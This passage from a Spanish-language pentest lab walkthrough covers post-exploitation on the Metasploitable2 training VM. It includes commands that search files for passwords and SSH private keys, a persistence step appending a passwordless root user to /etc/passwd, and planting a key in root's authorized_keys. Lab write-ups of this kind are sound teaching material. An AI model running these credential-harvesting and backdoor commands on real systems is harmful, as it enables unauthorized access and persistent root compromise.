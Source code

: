 
```bash
grep -i "password" /var/www/* 2>/dev/null
```

**Resultado:**

No nos devuelve nada el segundo comando.

```bash
# Claves privadas SSH
find / -name "id_rsa" 2>/dev/null
```

**Resultado:**

No devuelve nada actualmente ya que con el usuario actual (sin ser rooT) no tenemos los permisos para ver determinados directorios.

En Metasploitable2 suelen encontrarse usuarios con contraseñas en texto plano en sus home o en configuraciones de aplicaciones.

## ♻️ Paso 11: Persistencia

Si no queremos perder acceso debemos:

- Creamos un usuario con acceso SSH:

 ```bash
echo "hacker::0:0:root:/root:/bin/bash" >> /etc/passwd
```

- Subir tu clave pública SSH a /root/.ssh/authorized_keys.

## Paso 12: Obtener acceso a usuario root:

Como somos usuario tomcat55, debemos buscar credenciales reutilizadas.

Focalizamos en:

```bash
# Archivos de configuración de Tomcat
find / -name "tomcat-users.xml" 2>/dev/null

# Configs con la palabra "password"
grep -ri "password" /etc/tomcat5.5 2>/dev/null
grep -ri "password" /var/lib/tomcat5.5 2>/dev/null

# Archivos web (pueden tener credenciales de BBDD o admin)
grep -ri "password" /var/www 2>/dev/null
```

Cualquier usuario/contraseña que encontremos la guardamos en:

```bash
echo "Usuario: XXX | Pass: YYY | Origen: /ruta/archivo" >> ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/credenciales.txt
```
